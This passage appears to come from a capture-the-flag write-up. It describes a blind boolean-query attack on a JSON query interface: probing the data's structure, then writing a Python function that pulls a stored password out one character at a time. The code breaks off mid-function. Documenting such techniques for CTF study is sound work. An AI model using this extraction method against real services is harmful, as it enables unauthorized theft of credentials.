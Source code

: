 
So let's try to find out some info about the data:

```
In [4]: bool_query("$.users")
Out[4]: True

In [5]: bool_query("len($.users) is 1")
Out[5]: True

In [8]: bool_query("len($.users[0]) is 4")
Out[8]: True

In [9]: bool_query("$.users[0].password")
Out[9]: True

In [10]: bool_query("$.users[0].wtf")
Out[10]: False

In [11]: bool_query("$.users[0].entropy")
Out[11]: True

In [12]: bool_query("$.users[0].score")
Out[12]: False

In [13]: bool_query("$.users[0].username")
Out[13]: False

In [14]: bool_query("$.users[0].user")
Out[14]: False
```

So now we now that the data structure looks something like this:

```json
{
    "users" : [
        {
            "password": "???",
            "entropy": ???,
            "???": ???,
            "???": "admin"
        }
    ]
}
```

So we started by creating a function that exfiltrates the password. We first
performed queries like `'a' in $.users[0].password` to find all the chars in
the password. Then we used queries like `$.user[0].password[0] is 'a'` to
get the value of the password:


```python
char_tries = string.printable[:-6].replace("'", "").replace("\\", "")


def find_str(base_query):
    """
    exfiltrate a string using boolean queries
    """
    # first find the chars that are contained in the string to speed up
    # bruteforcing
    char_tries_real = []
    pr = log.progress("char_tries[i]")
    for i, c in enumerate(char_tries):
        pr.status("{!r} ({!r})".format(c, "".join(char_tries_real)))
        r = bool_query("'{}' in {}".format(c, base_query))
```
